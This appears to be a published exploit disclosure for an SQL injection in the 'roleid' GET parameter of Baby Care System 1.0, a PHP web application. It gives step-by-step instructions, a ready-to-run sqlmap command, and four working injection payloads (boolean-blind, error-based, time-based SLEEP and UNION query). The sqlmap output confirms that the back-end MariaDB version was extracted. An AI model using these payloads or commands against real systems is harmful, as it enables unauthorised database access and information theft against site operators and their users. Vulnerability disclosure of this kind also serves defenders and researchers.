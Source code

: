 INFO
----

    # Exploit Title: Baby Care System 1.0 - 'roleid' SQL Injection
    # Exploit Author: Vijay Sachdeva
    # Date: 2020-12-23
    # Vendor Homepage: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html
    # Software Link: https://www.sourcecodester.com/download-code?nid=14622&title=Baby+Care+System+in+PHP%2FMySQLi+with+Full+Source+Code+
    # Affected Version: Version 1
    # Tested on Kali Linux

    Step 1. Log in to the application with admin credentials.

    Step 2. Click on "MENUS" on the left side and then edit any "Page Role".

    Step 3. On the edit page, the URL should be: http://localhost/BabyCare-master/admin.php?id=pagerole&action=edit&roleid=7

    Step 4. Run sqlmap on the URL where the "roleid" parameter is given

    sqlmap -u "
    http://192.168.1.240/BabyCare-master/admin.php?id=pagerole&action=edit&roleid=7"
    --banner

    ---

    Parameter: roleid (GET)

        Type: boolean-based blind

        Title: AND boolean-based blind - WHERE or HAVING clause

        Payload: id=pagerole&action=edit&roleid=8' AND 3077=3077 AND
    'IPDn'='IPDn


        Type: error-based

        Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP
    BY clause (FLOOR)

        Payload: id=pagerole&action=edit&roleid=8' AND (SELECT 2834 FROM(SELECT
    COUNT(*),CONCAT(0x7170767871,(SELECT
    (ELT(2834=2834,1))),0x71717a6271,FLOOR(RAND(0)*2))x FROM
    INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'jnFT'='jnFT


        Type: time-based blind

        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)

        Payload: id=pagerole&action=edit&roleid=8' AND (SELECT 4559 FROM
    (SELECT(SLEEP(5)))jaEa) AND 'iBGT'='iBGT


        Type: UNION query

        Title: Generic UNION query (NULL) - 4 columns

        Payload: id=pagerole&action=edit&roleid=-2488' UNION ALL SELECT
    CONCAT(0x7170767871,0x7577594366596d7077424f5746685366434a5244775565756b7a41566d63546c5156564e6d67556e,0x71717a6271),NULL,NULL,NULL--
    -

    ---

    [05:32:00] [INFO] the back-end DBMS is MySQL

    [05:32:00] [INFO] fetching banner

    back-end DBMS: MySQL >= 5.0 (MariaDB fork)

    banner: '10.3.24-MariaDB-2'

    ---

    [08:18:34] [INFO] the back-end DBMS is MySQL

    [08:18:34] [INFO] fetching banner

    back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

    banner: '10.3.24-MariaDB-2'


    ---

    Step 5. Sqlmap should inject the web-app successfully which leads to information disclosure.